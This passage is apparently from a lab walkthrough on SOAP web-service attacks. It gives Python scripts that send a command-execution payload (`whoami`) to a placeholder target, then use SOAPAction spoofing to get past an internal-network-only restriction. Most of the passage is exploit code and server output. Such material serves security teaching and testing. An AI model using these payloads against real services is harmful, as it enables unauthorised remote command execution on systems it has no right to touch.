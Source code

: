 We notice that there is a _cmd_ parameter. Let us build a Python script to issue requests (save it as `client.py`). Note that the below script will try to have the SOAP service execute a `whoami` command.

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)

```

The Python script can be executed, as follows.

```shell
python3 client.py
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>'

```

We get an error mentioning _This function is only allowed in internal networks_. We have no access to the internal networks. Does this mean we are stuck? Not yet! Let us try a SOAPAction spoofing attack, as follows.

Let us build a new Python script for our SOAPAction spoofing attack (save it as `client_soapaction_spoofing.py`).

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)

```

- We specify _LoginRequest_ in `<soap:Body>`, so that our request goes through. This operation is allowed from the outside.
- We specify the parameters of _ExecuteCommand_ because we want to have the SOAP service execute a `whoami` command.
- We specify the blocked operation ( _ExecuteCommand_) in the SOAPAction header

If the web service determines the operation to be executed based solely on the SOAPAction header, we may bypass the restrictions and have the SOAP service execute a `whoami` command.

